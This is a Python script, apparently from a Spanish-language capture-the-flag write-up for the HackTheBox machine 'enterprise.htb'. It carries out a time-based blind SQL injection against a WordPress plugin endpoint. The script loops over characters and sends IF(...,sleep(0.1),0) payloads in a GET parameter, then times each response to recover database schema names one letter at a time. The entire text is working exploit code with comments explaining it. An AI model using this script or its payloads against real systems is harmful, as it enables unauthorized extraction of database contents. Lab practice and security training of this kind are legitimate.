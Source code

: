 ```py
signal.signal(signal.SIGINT, def_handler)

url = "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php"
result = ""

# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~£
set_chars = string.ascii_letters + string.digits + string.punctuation + "£"

session = requests.Session()

# Hacemos de cuenta que hay 10 bases de datos
p1 = log.progress("Extrayendo bases de datos")
for db_position in range(0,10):
    p2 = log.progress("DB [%d]" % (db_position))
    # Recorremos cada base de datos y vamos descubriendo las letras que componen su nombre
    for word_position in range(1,51):
        # Iteramos entre cada letra del conjunto
        for letter in set_chars:
            # Tiempo antes de la petición
            time_before = time.time()
            payload = "IF(Ascii(substring((SELECT schema_name FROM information_schema.schemata LIMIT %d,1),%d,1))=%d,sleep(0.1),0)" % (db_position, word_position, ord(letter))
            p1.status(payload)

            data_get = {"query" : "1 or " + payload}
            r = session.get(url, params=data_get)

            # Tiempo despues de la petición
            time_after = time.time()
            # Si la diferencia de tiempos es mayor a 3 (recuerden que 0.1 era igual a 4 segundos) sabemos que ejecuto el SLEEP,
            # por lo tanto sabemos que esa letra hace parte de la respuesta
            if time_after - time_before > 3:
                result += letter
                p2.status(result)
                break
            # Si llega a este caracter, quiere decir que ya termino la palabra actual y va a la siguiente.
            elif letter == "£":
                break

        if letter == "£":
            break

    p2.success(result)
    result = ""

p1.success("d0Ne")
print("\nk3Ep br3ak1n6 4anYyyu...\n")
```
